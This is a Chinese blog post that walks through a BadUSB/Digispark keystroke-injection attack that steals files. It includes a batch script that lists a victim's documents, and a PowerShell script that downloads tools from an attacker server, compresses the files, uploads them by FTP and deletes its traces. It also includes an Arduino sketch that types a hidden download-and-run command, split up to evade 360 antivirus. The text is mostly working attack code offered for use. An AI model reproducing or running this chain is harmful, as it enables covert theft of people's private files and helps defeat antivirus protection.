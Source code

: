 ```yaml
---
title: "【HID攻击】360免杀方法-digispark利用PowerShell脚本进行文件窃取"
date: '2019-04-06T20:20:05Z'
tags:
  - 旧博客内容
  - 技术向
updatedOn: '2019-04-06T20:20:05Z'
raw_comment_count: '0'
image: https://oss.192168123.xyz/image/old-fxblog-img/cover/fa92823efb8732e9b61a8ba6d063ad12.jpg
---
```


:::tip
本文迁移自老博客，原始链接为 [https://blog.fxit.top/?p=1011](https://blog.fxit.top/?p=1011)
:::

前言

本文是在m大的[https://www.freebuf.com/articles/100026.html](https://www.freebuf.com/articles/100026.html)基础上 进行 digispark代码的适配 以及 360的免杀处理，以弥补原教程的缺失，再次感谢m大提供的思路。

本文对360免杀处理 以及 digispark的代码转换 为博主原创。

本文对m大的文章进行整合修改，并加入digispark的适配以及360免杀的处理部分，以及提供文章提到的相关文件下载。

<hr />

## 准备工具
一台外网主机(直接电脑接网线宽带拨号也可以)

一个HID攻击工具(烧鹅或者Badusb)

FTPserver(搭建一个FTP服务器用来接收窃取到的文件)

PHPstudy(搭建http服务器用来存放ps脚本等)

7z.exe / 7z.dll(存放到http服务器下,之后会利用它来进行压缩后在上传，尽量减小上传速度)

PS：7z.exe以及7z.dll在文末下载。

<hr />

### 代码部分(以下代码可能具有攻击性,请勿用于非法用途)
1.\[get.bat\](获取需要的文件存放位置，并保存到c:\temp.bat)[该代码存放于服务器http根目录下]

<strong>博主PS：此处是寻找对应文件夹里面*.txt等文件类型后缀的文件，保存到c盘根目录的temp.bat。</strong>
```
dir /s /a /b "%userprofile%\desktop\*.txt"&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.doc"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.docx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xlsx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.ppt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.eet"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.et"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xlt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.pdf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.jpg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.jpeg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.png"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.bmp"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.gif"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.rtf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.htl"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.txt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.doc"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.docx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xlsx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.ppt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.eet"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.et"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xlt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.pdf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.jpg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.jpeg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.png"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.bmp"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.gif"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.rtf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.htl"&gt;&gt;c:\temp.bat
```

2.\[get.ps1\](清除运行记录，下载服务器中的7z.dll / 7z.exe / get.bat到c盘到相应位置,处理c:\temp.bat为7z压缩为c:\Ram.7z,上传c:\Ram.7z到FTP服务器根目录下,删除所有下载的文件!!!一共需要改4处IP地址!!!)[该代码存放于服务器http根目录下记得设置FTP服务器密码为admin admin]

<strong>博主PS：此处是对刚刚寻找到的文件进行压缩并上传到你自己的服务器。</strong>
```
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f;

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/7z.dll','c:\7z.dll');

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/7z.exe','c:\7z.exe');

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/get.bat','c:\Users\Public\get.bat');

C:\Users\Public\get.bat;$array="";foreach($u in(get-content c:\temp.bat)){[array]$array +='c:\7z a -t7z c:\Ram.7z "'+$u+'"'};$array | Out-File -Encoding default c:\temp.bat;c:\temp.bat;

$fileinf=New-Object System.Io.FileInfo("C:\Ram.7z");

$ftp = [System.Net.FtpWebRequest] [System.Net.FtpWebRequest]::Create("ftp://192.168.1.1/"+$fileinf.name)

$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile

$ftp.Credentials = new-object System.Net.NetworkCredential("admin","admin")

$ftp.UseBinary = $true

$ftp.UsePassive = $true

$content = [System.IO.File]::ReadAllBytes($fileInf.fullname)

$ftp.ContentLength = $content.Length

$rs = $ftp.GetRequestStream()

$rs.Write($content, 0, $content.Length)

$rs.Close()

$rs.Dispose()

Remove-Item c:\temp.bat

Remove-Item c:\Ram.*

Remove-Item c:\7z.*

Remove-Item c:\Users\Public\get.*
```
### （下条为博主修改过的原创内容！）
3.\[get.ino\](以管理员权限下载get.ps1到本地c:\users\public目录!!!需要改1处IP地址!!!UAC闪过之后要记得拔出)[修改IP后直接刷入]
```
#include "DigiKeyboard.h"
#define KEY_LEFT_SHIFT 0xE1
#define KEY_LEFT_ALT 0xE1
void setup() {
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyPress(KEY_LEFT_SHIFT);//按住左SHIFT，绕过输入法
DigiKeyboard.println("POWERSHELL -NOP");
DigiKeyboard.sendKeyPress(0);//松开
DigiKeyboard.sendKeyStroke(KEY_ENTER);//按回车
DigiKeyboard.delay(2000);
DigiKeyboard.println("$clnt=new-object System.Net.WebClient;");//开始分part执行实现360免杀
DigiKeyboard.println("$url='http://你上传的服务器域名/GET.ps1\';");
DigiKeyboard.println("$file='C:\\USERS\\PUBLIC\\GET.PS1';");
DigiKeyboard.println("$clnt.DownloadFile($url,$file);");
DigiKeyboard.println("START-PROCESS POWERSHELL.exe \"C:\\USERS\\PUBLIC\\GET.PS1\" -WindowStyle Hidden");
DigiKeyboard.println("exit");
}

void loop() {
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.print("y");
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
}
```
上面通过分part执行，以跳过360的弹窗提示。

<hr />

以上。

相关文件下载链接在文末。
